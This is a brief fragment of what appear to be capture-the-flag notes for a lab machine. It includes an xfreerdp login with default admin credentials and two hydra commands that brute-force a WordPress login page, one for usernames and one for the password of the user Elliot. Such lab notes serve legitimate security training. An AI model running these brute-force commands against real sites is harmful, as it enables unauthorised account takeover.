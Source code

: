 RDP: xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
 hydra -L fsocity.dic -p test 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password" -t 30
